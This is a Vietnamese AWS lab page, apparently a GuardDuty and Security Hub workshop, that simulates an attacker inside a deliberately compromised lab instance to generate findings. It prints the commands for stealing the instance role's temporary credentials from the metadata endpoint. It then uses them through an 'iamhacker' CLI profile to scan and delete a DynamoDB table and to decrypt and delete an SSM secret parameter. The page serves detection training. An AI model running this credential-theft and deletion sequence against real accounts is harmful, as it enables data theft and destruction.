 ```yaml
---
title : "Create Findings"
date :  2025-06-11
weight : 2 
chapter : false
pre : " <b> 3.3. </b> "
---
```

### Tình huống 3: 
Bạn Long vừa nhận ra các cuộc tấn công vừa rồi là các cuộc tấn công giả lập, các Findings được tự động tạo ra từ CloudFormation Template để xem xét khả năng bảo mật của Security Hub và GuardDuty. Tuy nhiên rủi ro bảo mật vẫn còn có, một hacker tên Bảo đã tiến hành truy xuất thành công IAM security credential tạm thời được sinh ra bởi IAM role thuộc EC2 instance. Vậy hacker này đã tiến hành truy xuất ra sao?

**Truy xuất IAM security credential tạm thời với Systems Manager**

Để tiến hành cuộc tấn công cuối cùng này, Bảo cần phải truy xuất thành công IAM security credential tạm thời được sinh ra bởi IAM role thuộc EC2 instance. Bảo có thể thử 1 trong 2 cách sau:
1. Truy cập SSH vào EC2 instance và tiến hành truy vấn dữ liệu Metadata của EC2 instance.
2. Sử dụng chức năng Session Manager của dịch vụ AWS System Manager.

> Chúng ta sẽ tiến hành tạo các Findings 
1. Truy cập vào Session Manager ở ap-southeast-1.

![create findings](/images/3.attack/3.3/1.png)

2. Ở thanh điều hướng bên tay phải, chọn tiếp tục Start Session.

![create findings](/images/3.attack/3.3/2.png)

3. Ở mục **Target instances** chúng ta sẽ thấy một managed EC2 instance với định dạng tên như sau - **GuardDuty-Example: Compromised Instance: Scenario 3** với trạng thái SSM Agent ping status là Online.
4. Chọn instance **GuardDuty-Example: Compromised Instance: Scenario 3** và ấn **Start session**.

![create findings](/images/3.attack/3.3/3.png)

5. Thực hiện câu lệnh truy vấn dữ liệu Metadata:

         curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GuardDuty-Example-EC2-Compromised

6. Mở notepad, tiến hành ghi chú một số thông tin quan trọng sau:
- Access Key ID.
- Secret Access Key.
- Session Token.

![create findings](/images/3.attack/3.3/4.png)

### Tạo AWS CLI Profile trên máy tính cá nhân
Sau khi thành công truy xuất IAM security credential tạm thời, chúng ta sẽ tiến hành tạo một AWS CLI Profile trên máy tính cá nhân. Từ Terminal/CMD/PowerShell, chúng ta tiến hành thay thế các <PLACEHOLDER> với giá trị cụ thể đã thu thập, sau đó thực hiện nhập các lệnh sau:

      aws configure set profile.iamhacker.region ap-southeast-1
      aws configure set profile.iamhacker.aws_access_key_id <ACCESS_KEY_ID>
      aws configure set profile.iamhacker.aws_secret_access_key <SECRET_ACCESS_KEY>
      aws configure set profile.iamhacker.aws_session_token <SESSION_TOKEN>

Chúng ta có thể sử dụng câu lệnh sau để tiến hành kiểm tra nhanh xem đã có AWS CLI Profile tên là **iamhacker** hay chưa.
      
      aws configure --profile iamhacker

![create findings](/images/3.attack/3.4/1.png)

#### Thực hiện câu lệnh AWS CLI bằng IAM security credential tạm thời
Bằng các câu lệnh AWS CLI dưới đây, chúng ta tiến hành thực hiện gọi API đến những dịch vụ AWS khác nhau.

**IAM user có bất kỳ quyền hạn nào?**
      
      aws iam get-user --profile iamhacker
      aws iam create-user --user-name BuiChiBao --profile iamhacker

![create findings](/images/3.attack/3.4/2.png)

> Như vậy IAM user không thể get-user cũng như create-user

**Liệu có quyền truy cập đến DynamoDB?**

      aws dynamodb list-tables --profile iamhacker
      aws dynamodb describe-table --table-name GuardDuty-Example-Customer-DB --profile iamhacker

![create findings](/images/3.attack/3.4/3.png)

![create findings](/images/3.attack/3.4/4.png)
**Liệu có quyền truy vấn dữ liệu đến DynamoDB?**

      aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile iamhacker
      aws dynamodb delete-table --table-name GuardDuty-Example-Customer-DB --profile iamhacker
      aws dynamodb list-tables --profile iamhacker

![create findings](/images/3.attack/3.4/5.png)

![create findings](/images/3.attack/3.4/6.png)

> Như vậy hacker có quyền truy cập và truy vấn dữ liệu đến DynamoDB

**Liệu có thể truy cập đến System Manager Parameter Store?**

      aws ssm describe-parameters --profile iamhacker
      aws ssm get-parameters --names "gd_prod_dbpwd_sample" --profile iamhacker
      aws ssm get-parameters --names "gd_prod_dbpwd_sample" --with-decryption --profile iamhacker
      aws ssm delete-parameter --name "gd_prod_dbpwd_sample" --profile iamhacker

![create findings](/images/3.attack/3.4/7.png)

> Như vậy hacker có quyền truy cập đến System Manager Parameter Store
